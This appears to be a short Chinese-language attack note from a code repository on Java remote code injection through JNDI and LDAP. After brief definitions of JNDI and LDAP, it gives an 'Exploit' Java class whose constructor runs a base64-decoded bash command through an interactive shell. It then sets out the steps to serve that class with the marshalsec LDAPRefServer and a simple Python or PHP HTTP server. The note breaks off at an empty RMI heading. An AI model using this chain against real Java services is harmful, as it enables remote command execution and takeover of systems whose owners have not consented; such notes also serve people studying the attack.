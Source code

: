 # Java 远程代码注入

## JNDI LDAP 注入

>NDI ：
>全称：JAVA NAMING AND Directory interface 
>解释：java 命名目录访问接口：java 命名服务和目录服务而提供的统一API。
>理解：通过命名来访问需要的资源，类似DNS服务，可通过 key-value的形式。


>LDAP ：
>全称：LIGHTWEIGHT DIRECTORY ACCESS Protocol
>解释： 轻量级目录访问协议。是在20世纪90年代早期作为标准目录协议进行开发的。它是目前最流行的目录协议，与厂商、具体平台无关。LDAP用统一的方式定义了如何访问目录服务中的内容，比如增加、修改、删除一个条目
>理解：LDAP用统一的方式定义了如何访问目录服务中的内容，比如增加、修改、删除一个条目。
>LDAP 是协议，LDAP 服务可以理解为“层次数据库”服务，相比关系型数据库，查询更快。

Exp
```java
public class Exploit {
    public Exploit() {
        try {
            Runtime.getRuntime().exec("bash -c {echo,<base64 cmd>}|{base64,-d}|{bash,-i}");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static void main(String[] argv) {
        Exploit e = new Exploit();
    }
}

```
编译生成``Exploit.class``

使用[marshalsec](https://github.com/mbechler/marshalsec)工具将ldap请求转到http服务上

```
java -cp marslsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://ip:port/#Exploit
```

启动一个``http server`` 使得访问``http://ip:port/Exploit.class``能获取到class文件

可以利用`` python -m SimpleHTTPServer <port>``或``php -S 0.0.0.0:<port>``

## RMI
